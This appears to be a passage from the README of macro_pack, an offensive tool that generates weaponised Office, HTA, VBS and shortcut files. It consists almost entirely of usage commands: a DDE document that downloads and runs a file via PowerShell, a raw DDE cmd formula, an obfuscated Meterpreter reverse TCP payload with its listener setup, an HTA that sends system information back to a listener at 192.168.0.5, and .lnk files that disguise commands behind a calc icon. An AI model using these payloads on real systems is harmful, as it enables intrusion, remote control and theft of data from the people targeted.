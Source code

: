 - Execute calc.exe via Dynamic Data Exchange (DDE) attack
```bash
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

<p align="center"><img src="./assets/excel_dde.png" alt="Excel DDE demo"></p>


- Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
```bash
# 1 Change the target file URL in resources\community\ps_dl_exec.cmd
# 2 Embed download execute cmd in document
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xslx
```

- Run command (notepad.exe) via Excel web query file and DDE
```bash
# 1 Create dde.dat file with next content
=cmd|' /c notepad.exe'!A1
# 2 Host dde.dat on webserver, ex. using macro_pack -l
# 3 Generate .iqy file
macro_pack.exe -G dde.iqy
```

<p align="center"><img src="./assets/iqy_dde.PNG" alt="IQY demo"></p>


 - Generate obfuscated meterpreter reverse TCP VBS file and run it 
 ```batch
# 1 Generate obfuscated VBS based on meterpreter template as well as Metasploit resource file
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.vbs
# 2 On attacker machine Setup meterpreter listener
msfconsole -r meterpreter.rc
# 3 run VBS file with wscript (run 32bit wscript because meterpreter payload is 32bit)
%windir%\SysWoW64\wscript meter.vbs

 ```


- Generate obfuscated HTA file which executes "systeminfo" and returns result to another macro_pack listening on 192.168.0.5
```batch
# 1 Generate HTA file with REMOTE_CMD template
echo http://192.168.0.5:1234/a "systeminfo" | macro_pack.exe -t REMOTE_CMD -o -G info.hta
# 2 On 192.168.0.5 open macro_pack as http listener
macro_pack.exe -l . --port=1234
# 3 run hta file with mshta
mshta.exe full/path/to/info.hta
```


- Generate url shortcut which executes a local HTA file when you click on it
```batch
 echo "file://C:\Users\username\Desktop\hello.hta" | macro_pack.exe -G yop.url
```


- Generate lnk shortcut which executes a cmd running calc.exe with calc.exe icon
```batch
 echo '"c:\Windows\System32\cmd.exe /c calc.exe" "calc.exe"' | macro_pack.exe -G calc.lnk
```
